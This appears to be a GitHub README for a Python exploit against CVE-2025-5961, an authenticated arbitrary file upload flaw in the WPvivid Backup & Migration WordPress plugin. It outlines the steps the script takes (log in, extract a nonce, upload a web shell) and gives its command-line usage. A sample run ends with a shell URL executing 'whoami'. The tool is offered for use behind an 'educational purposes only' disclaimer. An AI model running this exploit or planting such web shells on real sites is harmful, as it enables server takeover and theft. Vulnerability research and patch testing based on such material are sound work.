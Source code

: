 
# 🚨 Migration, Backup, Staging – WPvivid Backup & Migration <= 0.9.116 - Authenticated (Administrator+) Arbitrary File Upload

> 📈 *This vulnerability affects a plugin with over **700,000+ installs***  

---

## 📝 CVE Details

- **CVE:** CVE-2025-5961
- **CVSS:** 7.2 (High)
- **Published:** July 3, 2025

---

## 🔍 Description

The **Migration, Backup, Staging – WPvivid Backup & Migration** plugin for WordPress is vulnerable to **arbitrary file uploads** due to missing file type validation in the `wpvivid_upload_import_files` function in all versions up to, and including, `0.9.116`.

This allows **authenticated attackers (Administrator-level and above)** to upload arbitrary files to the server, potentially enabling remote code execution.



---

## 🧰 Script

This repository contains an exploit script for **CVE-2025-5961**, written in Python, which:
- Checks plugin version.
- Logs in as Administrator.
- Extracts the required nonce from the plugin page.
- Uploads a web shell payload.
- Prints the URL to access the shell.

---

## 🖥️ Example Usage

```bash
python3 CVE-2025-5961.py -u http://target/wordpress -un admin -p password123
```

---

## ⚙️ Usage

```text
$ python3 CVE-2025-5961.py -h

usage: CVE-2025-5961.py [-h] -u URL -un USERNAME -p PASSWORD

CVE-2025-5961 Exploit by Khaled Alenazi (Nxploited)

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target WordPress URL
  -un, --username USERNAME
                        Admin username
  -p, --password PASSWORD
```

---

## 📊 Output Example

```text
[+] Checking plugin version...
[+] Detected plugin version: 0.9.116
[+] Target is vulnerable. Continuing exploit.
[+] Logging in to http://target/wordpress...
[+] Logged in successfully.
[+] Fetching WPvivid page to extract nonce...
[+] Extracted nonce: 502d5dce0e
[+] Uploading shell...
[+] Exploit succeeded!
[+] Shell URL: http://target/wordpress/wp-content/wpvividbackups/ImportandExport/shellnxploited.php?cmd=whoami
Exploit By: Khaled Alenazi (Nxploited) - https://github.com/Nxploited/
```

---

## ⚖️ Disclaimer

This script is provided for **educational and research purposes only**.  
The author is not responsible for any misuse or damage caused by this tool.

---

## ✍️ By

**Khaled Alenazi (Nxploited)**  
🌐 [GitHub](https://github.com/Nxploited/)  

---
